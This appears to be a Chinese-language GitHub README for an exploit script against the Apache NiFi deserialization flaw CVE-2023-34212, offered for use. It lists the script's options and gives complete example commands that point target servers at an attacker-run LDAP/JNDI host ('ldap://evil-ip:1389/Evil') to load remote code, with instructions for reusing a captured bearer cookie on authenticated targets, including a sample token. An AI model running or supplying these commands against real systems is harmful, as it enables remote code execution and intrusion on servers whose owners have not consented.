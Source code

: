 # Apache NiFi 反序列化漏洞(CVE-2023-34212)

攻击者利用此漏洞执行代码。

https://lists.apache.org/thread/w5rm46fxmvxy216tglf0dv83wo6gnzr5

Apache NiFi 从1.14.0版本开始默认要求身份认证。

## 漏洞利用
Usage: 

```shell
CVE-2023-34212.py [-h] -t TARGET -u JNDIURL -l JNDIFACTORYLOCATION
                         [-c COOKIEBEARER]
                         [--JndiFactoryClass JNDIFACTORYCLASS]
```
optional arguments:

* -h, --help            show this help message and exit

* -t TARGET, --target TARGET
                        target 指定目标NIFI系统的地址,**必要参数**. eg:
                        http://192.168.25.147:8080

* -u JNDIURL, --JndiUrl JNDIURL
                        JNDI服务监听地址,**必要参数**. eg: ldap://xx.xx.xx.xx:1389

* -l JNDIFACTORYLOCATION, --JndiFactoryLocation JNDIFACTORYLOCATION
                        访问JNDI实例对象地址,**必要参数**. eg: ldap://xx.xx.xx.xx:1389/Evil

* -c COOKIEBEARER, --cookieBearer COOKIEBEARER
                        Cookie中Bearer值.

* --JndiFactoryClass JNDIFACTORYCLASS
                        JNDI工厂类. eg: com.sun.jndi.ldap.LdapCtxFactory


**注意：**

1. 通常以`https`开头的目标要求认证，运行脚本时须携带Cookie，否则不通过。\
    eg:&nbsp; 数据包显示`Cookie: __Host-Authorization-Bearer=eyJhbGciOiJIUzI1NiJ9-rqWw`，则在运行脚本时添加\
`--cookieBearer=eyJhbGciOiJIUzI1NiJ9-rqWw`即可。

2. `JNDIURL`与`JndiFactoryLocation`中的地址一致，指向相同的JNDI服务器。\
    eg:&nbsp; -u=ldap://123.123.123.123:1389 -l=ldap://123.123.123.123:1389/Evil
     
<br>

测试**不要求认证**的目标：

```
python CVE-2023-34212.py -t http://192.168.25.152:8080 -u ldap://evil-ip:1389 -l ldap://evil-ip:1389/Evil
```
![](pic/nifi-http.gif)

<br>

测试**要求认证**的目标：

```
python CVE-2023-34212.py -t https://192.168.25.151:8443 -u ldap://evil-ip:1389 -l ldap://evil-ip:1389/Evil --cookieBearer=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImlzcyI6IlNpbmdsZVVzZXJMb2dpbklkZW50aXR5UHJvdmlkZXIiLCJhdWQiOiJTaW5nbGVVc2VyTG9naW5JZGVudGl0eVByb3ZpZGVyIiwicHJlZmVycmVkX3VzZXJuYW1lIjoiYWRtaW4iLCJraWQiOjEsImV4cCI6MTY4NzIwNjMwNywiaWF0IjoxNjg3MTc3NTA3fQ.YsgXKWdhT0jAupZVTHEsIDc20xbW3kk67EopnbH0FlM
```
![](pic/nifi-https.gif)
